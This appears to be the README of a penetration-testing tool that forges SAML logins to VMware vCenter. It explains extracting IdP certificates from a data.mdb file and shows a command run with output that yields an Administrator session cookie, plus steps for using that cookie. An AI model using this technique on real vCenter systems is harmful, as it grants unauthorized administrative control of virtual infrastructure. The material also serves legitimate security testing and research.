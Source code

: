 # vCenter SAML Login Tool
A tool to extract the IdP cert from vCenter backups and log in as Administrator

## Background
With root or administrative permissions, it is possible to extract the IdP certificates from the directory service information located within the data.mdb file on the VCSA host. These certificates are stored in cleartext and can be used to sign any SAML authentication request for any user - including the builtin Administrator.

We've commonly found vCenter backups that contain the data.mdb file as well as several critical CVEs have been released in the past year that lead to access to this file.

If you'd like to know more about several use cases for this tool and how we've used it to gain Administrative access to vCenter hosts check out our blog post: https://horizon3.ai/vcenter_saml_login

## Usage
```
root@kali:~/vcenter# python3 vcenter_saml_login.py -p data.mdb -t 10.0.100.200
[*] Successfully extracted the IdP certificate
[*] Successfully extracted trusted certificate 1
[*] Successfully extracted trusted certificate 2
[*] Obtaining hostname from vCenter SSL certificate
[*] Found hostname vcsa.olympus for 10.0.100.200
[*] Initiating SAML request with 10.0.100.200
[*] Generating SAML assertion
[*] Signing the SAML assertion
[*] Attempting to log into vCenter with the signed SAML request
[+] Successfuly obtained Administrator cookie for 10.0.100.200!
[+] Cookie: VSPHERE-UI-JSESSIONID=06D1630719B4DE33A4CE653458911640
```

With the above cookie, visit the VCSA instance at https://\<VCSA>\/ui, add the cookie under the /ui path, and re-browse to https://\<VCSA\>/ui. 

## Demonstration
![](vcenter.gif)
